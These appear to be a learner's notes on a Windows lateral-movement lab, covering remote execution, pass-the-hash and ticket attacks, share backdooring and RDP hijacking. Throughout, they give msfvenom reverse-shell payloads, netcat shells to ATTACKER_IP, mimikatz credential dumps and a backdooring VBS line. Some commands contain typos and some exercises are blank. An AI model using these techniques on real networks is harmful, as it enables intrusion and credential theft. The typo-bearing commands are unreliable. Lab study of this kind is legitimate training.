

# Lateral Movement and Pivoting

### Moving Through the Network

**What is Lateral Movement?**

Lateral movement is a group of techniques used by attackers to move around a network.
Moving is essential for many reasons, including:

- Reaching our goals as attackers
- Bypassing network restrictions in place
- Establishing additional points of entry to the network
- Creating confusion and avoid detection.


Usually, we will repeat this cycle several times before reaching our final goal on the network. If our 
first foothold is a machine with very little access to other network resources, we might need to move 
laterally to other hosts that have more privileges on the network.

**The Attacker's Perspective**

The simplest way to move laterally is to use standard administrative protocols like WinRM, RDP, VNC or 
SSH to connect to other machines around the network. This approach can be used to emulate regular 
user behavour. Make sure the connections don't appear suspicious (e.g.why is a local admin on a 
Marketing machine connecting to a Dev machine?)

**Administrators and UAC**

Two types of administrator:

- Local accounts part of the local Administrators group
- Domain accounts part of the local Administrators group

There are restrictions imposed by User Account Control (UAC) over local administrators (except for the 
default Administrator account). By default, local administrators won't be able to remotely connect to a 
machine and perform administrative tasks unless using an interactive session through RDP. 

Windows will deny any administrative task requested via RPC, SMB or WinRM since such administrators 
will be logged in with a filtered medium integrity token, preventing the account from doing privileged 
actions.

The only local account that will get full privileges is the default Administrator account.

Domain accounts with local administration privileges won't be subject to the same treatment and will be 
logged in with full administrative privileges.

This security feature can be disabled if desired, and sometimes you will find no difference between 
local and domain accounts in the administrator's group.

It's essential to keep in mind that should some of the lateral movement techniques fail, it might be 
due to using a non-default local administrator where UAC is enforced. Info [here](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction)

### Spawning Processes Remotely

**Psexec**

Ports: 445/TCP (SMB)
Required Group Membership: Administrators

The way psexec works:

- Connect to Admin$ share and upload a service binary. Psexec uses psexesvc.exe as the name.
- Connect to the service control manager to create and run a service named PSEXESVC and associate the 
service binary with `C:\Windows\psexesvc.exe`.
- Create some named pipes to handle stdin/stdout/stderr.

To run psexec, we supply the required administrator credentials for the remote host and the command we 
want to run:

`psexec64.exe \\<TARGET> -u Administrator -p Password -i cmd.exe`


**Remote Process Creation using WinRM**

Ports:

- 5985/TCP (WinRM HTTP)
- 5986/TCP (WinRM HTTPS)

Required Group Memberships: Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows 
hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an 
attractive attack vector.

Connect to a remote Powershell session from the command line:

`winrs.exe -u:<USERNAME> -p:<PASSWORD> -r:<TARGET> cmd`

We can achieve the same from Powershell, but to pass different credentials we will need to create a 
PSCredential object:

```
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession 
cmdlet:

`Enter-PSSession -Computername <TARGET> -Credential $credential`

Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. 
Credentials must be passed through a PSCredential object as well:

`Invoke-Command -Computername <TARGET> -Credential $credential -ScriptBlock {whoami}`


**Remotely Creating Services using sc**

Ports:

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 445/TCP (RPC over SMB Named Pipes)
- 139/TCP (RPC over SMB Named Pipes)

Required Group Memberships: Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when 
started. While a service executable is technically different from a regular application, if we 
configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using 
sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC 
in several ways:

1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint 
Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request 
information on the SVCCTL service program. The EPM will then respond with the IP and port to connect 
to SVCCTL, which is usually a dynamic port in the range of 49152-65535.


2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 
445 (SMB) or 139 (SMB over NetBIOS)



We can create and start a service named "THMservice" using the following commands:

```
sc.exe \\<TARGET> create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\<TARGET> start THMservice
```

The `net user` command will be executed when the service is started, creating a new local user on the 
system. Since the operating system is in charge of starting the service, you won't be able to look at 
the command output.

To stop and delete the service, we can then execute the following commands:

```
sc.exe \\<TARGET> stop THMservice
sc.exe \\<TARGET> delete THMservice
```

**Creating Scheduled Tasks Remotely**

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with 
schtasks, available in any Windows installation.

To create a task we can use the following commands:

```
schtasks /s TARGET /RU "SYSTEM" /create /tn "TaskNameHere" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s TARGET /run /TN "TaskNameHere" 
```

We set the schedule type (/sc) to ONCE, which means the task is intended to be run only once at the 
specified time and date. Since we will be running the task manually, the starting date (/sd) and 
starting time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making 
this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

`schtasks /S TARGET /TN "TaskNameHere" /DELETE /F`

**Let's Get to Work!**

Exploit with sc.exe:

1. ssh into jump server THMJMP2

2. create msfvenom service exe payload

`msfvenom -p windows/shell/reverse_tcp LHOST=10.10.0.1 LPORT=4444 -f exe-service -o service-shell.exe`

3. use smbclient with compromised credentials (t1_leonard.summers) to upload payload to target THMIIS

`smbclient -c 'put service-shell.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$'`

4. start a listener with msfconsole

`msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST 10.10.0.1; set LPORT 4444;exploit"`

5. get a shell on the target with netcat (connected to THMJMP2 with ssh, shell will spawn but we won't 
be able to access it so netcat is used instead) and using `runas.exe` to execute as t1_leonard.summers

`runas.exe /netonly /user:ZA.TRYHACKME.COM\leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.10.0.1 4443"`

6. create service with uploaded payload as the service bin

`sc.exe \\thmiis.za.tryhackme.com create RemoteShellService binPath= "%windir%\service-shell.exe" start= auto`

7. start the service to gain a SYSTEM shell on THMIIS

`sc.exe \\thmiis.za.tryhackme.com start RemoteShellService`

Exploit with WinRM:

1. ssh into jump server THMJMP2

2. run powershell and create username, password and securePassword environment variables with 
compromised credentials then create a credential object
```
$username = 't1_leonard.summers'
$password = 'EZpass4ever'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
```

3. invoke Enter-PSSession to gain a remote shell as t1_leonard.summers on THMIIS

`Enter-PSSession -Computername thmiis.za.tryhackme.com -Credential $credential`

Exploit with Psexec:

Couldn't get it working.

Exploit with Scheduled tasks:

### Moving Laterally using WMI

Windows Management Instrumentation (WMI) is Windows implementation of Web-Based Enterprise Management 
(WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can 
abuse to perform lateral movement in various ways.

**Connecting to WMI from PowerShell**

A PSCredential object is needed to connect to WMI:
```
$username = 'Administrator';
$password = 'Password';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System>management.Automation.PSCredential $username, $securePassword
```

We then establish a WMI session using either of the following protocols:

- DCOM: RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 
49152-65535/TCP, just as explained when using sc.exe.

- Wsman: WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 
5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session in 
the $Session variable:
```
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session,
including the connection protocol. The options and credentials are then passed to the `New-CimSession`
cmdlet to establish a session against a remote host.

Unlike a PSSession, when using a CimSession PowerShell doesn't establish the connection immediately
When a cmdlet uses the CIM session, PowerShell connects to the specified computer, and then, when the
cmdlet finishes, PowerShell terminates the connection.

**Remote process Creation using WMI**

Ports: 

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Memberships: Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation
(WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we 
created before:
```
$Command = "powershell.exe -Command -Set-Content -Path C:\text.txt -Value HelloWorld"

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Notice that WMI won't allow you to see the output of any command but will indeed create the required
process silently.

On legacy systems, the same can be done using wmic from the command prompt:

`wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" `

**Creating Services Remotely with WMI**

Ports: 

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Memberships: Administrators

We can create services with WMI through Powershell using the following command:
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "<SERVICE-NAME>";
DisplayName = "<SERVICE-NAME>";
PathName = "net user <USERNAME> <PASSWORD> /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:
```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<SERVICE-NAME>'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:
```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

**Creating Scheduled Tasks Remotely with WMI**

Ports:

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Memberships: Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default 
installations:
```
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

`Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"`

**Installing MSI packages through WMI**

Ports:

- 135/TCP, 49152-65535/TCP (DCE/RPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Memberships: Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can 
then use WMI to attempt to install it for us. The file can be copied in any way available to the 
attacker.

Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product 
class through WMI:
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

`wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi`

**Let's Get to Work!**

Exploit with WMI and MSI packages:

1. generate msi package payload with msfvenom

2. upload to target's ADMIN$ dir with smbclient using compromised Administrator credentials

3. start msfconsole multi/handler

4. create PSCredential object, CimSession options and session

5. install the msi package payload through the CimSession by invoking the Install method from the 
Win32_Product class to gain a remote shell

6. execute C:\Users\t1_corine.waters\Desktop\Flag.exe

Exploit with remote process creation:

Exploit with remote service creation:

Exploit with remote scheduled task creation:

### Use of Alternate Authentication Material

Alternative authentication material is a piece of data that can be used to access a Windows account without 
knowing a user's password. Windows network authentication protocols:

- NTLM authentication
- Kerberos authentication


1. The client sends an authentication request to the server they want to access

2. The server generates a random number and sends it as a challenge to the client

3. The client combines their NTLM password hash with the cahllenge (and other known data) to generate a 
response to the challenge and sends it back to the server for verification

4. The server forwards the challenge and the response to the DC for verification

5. The DC uses the challenge to recalculate the response and compares it to the initial response sent by the 
client. If they match, the client is authenticated. The authentication result is sent back to the server

6. The server forwards the authentication result to the client

Note: The described process applies when using a domain account. If a local account is used, the server can 
verify the response to the challenge itself without requiring interaction with the domain controller since 
it has the password hash stored locally on its SAM.

**Pass-the-Hash**

The NTLM challenge sent during authentication can be responded to just by knowing the password hash. We can 
authenticate without knowing the plaintext password. Instead of having to crack NTLM hashes, if the Windows 
domain is configured to use NTLM authentication, we can Pass-the-Hash (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from 
LSASS memory.

Extracting NTLM hashes from local SAM:

This method will only allow you to get hashes from local users on the machine. No domain user's hashes will 
be available.

```
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

Extracting NTLM hashes from LSASS memory:

This method will let you extract any NTLM hashes for local users and any domain user that has recently 
logged onto the machine.

```
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for 
the victim user on a reverse shell (or any other command you like) as follows:

```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used token::revert to reestablish our original token privileges, as trying to pass-the-hash with 
an elevated token won't work. 

This would be the equivalent of using runas /netonly but with a hash instead of a password and will spawn a 
new reverse shell from where we can launch any command as the victim user.

If you run the whoami command on this shell, it will still show you the original user you were using before 
doing PtH, but any command run from here will actually use the credentials we injected using PtH.

Pass the Hash using Linux:

Connect to RDP using Pass-the-Hash:
`xfreerdp /v:<TARGET-IP> /u:<DOMAIN\\USER> /pth:<NTLM-HASH>`

Connect via psexec using Pass-the-Hash:
`psexec.py -hashes <NTLM-HASH> <DOMAIN/USER>@<TARGET-IP>`

Connect to WinRM using Pass-the-Hash:
`evil-winrm -i <TARGET-IP> -u <USER> -H <NTLM-HASH>`

**Kerberos Authentication**


1. The user sends his username and a timestamp encrypted using a key derived from his password to the Key 
Distribution Center (KDC), a service usually installed on the Domain Controller in charge of creating 
Kerberos tickets on the network.

2. The KDC will create and send back a Ticket Granting Ticket (TGT), allowing the user to request tickets to 
access specific services without passing their credentials to the services themselves. Along with the TGT, a 
Session Key is given to the user, which they will need to generate the requests that follow.

Notice the TGT is encrypted using the krbtgt account's password hash, so the user can't access its contents. 
It is important to know that the encrypted TGT includes a copy of the Session Key as part of its contents, 
and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.


3. When users want to connect to a service on the network like a share, website or database, they will use 
their TGT to ask the KDC for a Ticket Granting Service (TGS). TGS are tickets that allow connection only to 
the specific service for which they were created. To request a TGS, the user will send his username and a 
timestamp encrypted using the Session Key, along with the TGT and a Service Principal Name (SPN), which 
indicates the service and server name we intend to access.

4. As a result, the KDC will send us a TGS and a Service Session Key, which we will need to authenticate to 
the service we want to access. The TGS is encrypted using the Service Owner Hash. The Service Owner is the 
user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on 
its encrypted contents so that the Service Owner can access it by decrypting the TGS.


5. The TGS can then be sent to the desired service to authenticate and establish a connection. The service 
will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.

**Pass-the-Ticket**

Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. 
The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Notice that if we only had access to a ticket but not its corresponding session key, we wouldn't be able to 
use that ticket; both are necessary.

While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, 
we'll be interested in TGTs as they can be used to request access to any services the user is allowed to 
access. TGSs are only good for a specific service.

Extracting TGTs require administrator's credentials, and extracting TGSs can be done with a low-privileged 
account (only the ones assigned to that account).

Once we have extracted the desired ticket, we can inject the tickets into the current session with the 
following command:

`mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi`

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will 
be available for any tools we use for lateral movement. To check if the tickets were correctly injected, you 
can use the klist command:

```
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com

```

**Overpass-the-Hash/Pass-the-Key**

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their 
password. The algorithm used to derive this key can be either DES (disabled by default on current Windows 
versions), RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If 
we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the 
name Pass-the-key (PtK).

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via 
Pass-the-Key:

If we have the RC4 hash:

mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

If we have the AES128 hash:

mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

If we have the AES256 hash:

mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could 
extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This 
particular variant is usually known as Overpass-the-Hash (OPtH).

**Let's Get to Work!**

1. ssh into thmjmp2 as t2_felicia.dean

2. use mimkatz to dump the authentication material
```
# Dump Local and Domain user hashes
privilege::debug
token::elevate

sekurlsa::msv
```

3. use Pass-the-Hash, Pass-the-Ticket or Pass-the-Key attack against t1_toby.beck to gain a shell with his 
credentials loaded

4. run `winrs.exe` to connect to a command prompt on THMIIS.za.tryhackme.com

`winrs.exe -r:THMIIS.za.tryhackme.com cmd`

### Abusing User Behaviour

**Abusing Writable Shares**

It's quite common to find network shares that legitimate users use to perform day-to-day tasks when checking 
corporate environments. If those shares are writable an attacker can plant specific files to force users 
into executing any arbitrary payload and gain access to their machines.

One common scenario consists of finding a shortcut to a script or executable file hosted on a network share.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, 
the executable will be copied from the server to its `%temp%` folder and executed on the workstation.
Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

**Backdooring .vbs Scipts**

If the shared resource is a VBS script, we can put a copy of nc64.exe on the same share and inject the 
following code in the shared script:

`CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True`

This will copy nc64.exe from the share to the user's workstation %tmp% directory and send a reverse shell 
back to the attacker whenever a user opens the shared VBS script.

**Backdooring .exe Files**

If the shared file is a Windows binary you can download it from the share and use msfvenom to inject a 
backdoor into it. The binary will still work as usual but execute an additional payload silently. To create 
a backdoored putty.exe, we can use the following command:

`msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe`

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once 
the file has been generated, we can replace the executable on the windows share and wait for any connections 
using the exploit/multi/handler module from Metasploit.

**RDP Hijacking**

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of 
logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on 
Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will 
be using psexec. To do so run cmd.exe as administrator and run PsExec64.exe (Sysinternals, not available by 
default):

`PsExec64.exe -s cmd.exe`

To list the existing sessions on a server, you can use the following command:

`query user`

To connect to a session, we will use tscon.exe and specify the session ID we will be taking over, as well as 
our current SESSIONNAME:

`tscon <ID> /dest:<SESSION-NAME>`

Note: Windows Server 2019 won't allow you to connect to another user's session without knowing its password.

**Let's Get to Work!**

1. RDP to thmjmp2 with new credentials

2. start an adminstrator `cmd.exe` shell

3. run `PsExec64.exe` to create a SYSTEM shell

`PsExec64.exe -s cmd.exe`

4. use `query session` to find an open RDP session

5. hijack the session with `tcon.exe`

`tcon.exe <ID> /dest:<SESSION-NAME>`

### Port Forwarding
